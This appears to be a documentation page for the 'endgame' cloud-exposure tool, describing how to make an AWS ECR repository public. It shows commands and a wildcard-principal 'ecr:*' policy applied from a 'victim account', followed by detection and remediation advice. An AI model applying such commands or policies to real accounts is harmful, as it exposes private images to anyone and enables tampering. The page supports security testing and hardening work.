 # Elastic Container Registries (ECR)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

expose --service ecr --name test-resource-exposure
```

* Alternatively, to expose the resource using the AWS CLI:

Create a file named `ecr-policy.json` with the following contents:

```json
{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:*"
            ]
        }
    ]
}
```

Then run the following from the victim account:

```bash
aws ecr set-repository-policy --repository-name test-resource-exposure --policy-text file://ecr-policy.json
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws ecr get-repository-policy \
    --repository-name test-resource-exposure
```

* Observe that the contents match the example shown below.


## Example

The policy shown below shows a policy that grants access to Principal `*`. If the output contains `*` in Principal, that means the ECR repository is public. If the Principal contains just an account ID, that means it is shared with another account.

```json
{
    "registryId": "111122223333",
    "repositoryName": "test-resource-exposure",
    "policyText": "{\n  \"Version\" : \"2008-10-17\",\n  \"Statement\" : [ {\n    \"Sid\" : \"allow public pull\",\n    \"Effect\" : \"Allow\",\n    \"Principal\" : \"*\",\n    \"Action\" : \"ecr:*\"\n  } ]\n}"
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that ECR Repositories are only shared with trusted accounts, and that the trusted accounts truly need access to the ECR Repository.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your ECR Repositories**: Tightly control access to the following IAM actions:
  - [ecr:SetRepositoryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_SetRepositoryPolicy.html): _Grants permission to apply a repository policy on a specified repository to control access permissions_
  - [ecr:DeleteRepositoryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_DeleteRepositoryPolicy.html): _Grants permission to delete the repository policy from a specified repository_
  - [ecr:GetRepositoryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_GetRepositoryPolicy.html): _Grants permission to retrieve the repository policy for a specified repository_
  - [ecr:DescribeRepositories](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_DescribeRepositories.html): _Grants permission to describe image repositories in a registry_
  - [ecr:PutRegistryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_PutRegistryPolicy.html): _Grants permission to update the registry policy_
  - [ecr:DeleteRegistryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_DeleteRegistryPolicy.html): _Grants permission to delete the registry policy_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [set-repository-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/set-repository-policy.html)